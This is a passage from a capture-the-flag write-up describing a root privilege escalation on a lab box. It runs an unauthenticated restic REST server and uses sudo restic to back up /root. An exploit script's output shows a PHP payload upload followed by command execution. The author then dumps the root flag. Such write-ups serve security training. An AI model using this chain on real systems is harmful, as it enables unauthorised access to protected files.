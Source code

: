 Then we run the restic server on the box:

```sh
bolt@bolt:/tmp/systemd-private-00x-systemd-resolver.service/content$ ./rest-server --no-auth --listen 0.0.0.0:4545 --path content
```

We also need to define a local password file containing an encryption password. We can arbitrarily set one and use it later to decrypt the contents locally. After the setup, we're ready to trigger the backup through our PoC:

```sh
sudo restic backup -r rest:http://127.0.0.1:4545/ --password-file=/tmp/systemd-private-00x-systemd-resolver.service/pass.txt /root 2>&1
```

And with the following response, we can see that we successfully backed up the root directory!

```sh
$ python3 exploit.py
[+] Logging in as admin
[+] Replace xlsx -> php
[+] Saving config
[+] Uploading /root/registry/payload.php
[+] Executing command
[+] Got response!
scan [/root]
[0:00] 10 directories, 14 files, 28.066 KiB
scanned 10 directories, 14 files in 0:00
[0:00] 100.00%  28.066 KiB / 28.066 KiB  24 / 24 items  0 errors  ETA 0:00
```

We can list the backups on the box:

```sh
bolt@bolt:/tmp/systemd-private-00x-systemd-resolver.service/content$ restic -r . snapshots
enter password for repository:
password is correct
ID        Date                 Host        Tags        Directory
----------------------------------------------------------------------
2a4c5a70  2020-02-12 17:32:13  bolt                    /root
----------------------------------------------------------------------
```

.. and finally, dump the backup contents:

```sh
bolt@bolt:/tmp/systemd-private-00x-systemd-resolver.service/content$ restic -r . dump 2a4c5a70 /root/root.txt
enter password for repository:
password is correct
<flag here>
```

This leaves us with the root flag! What a ride!
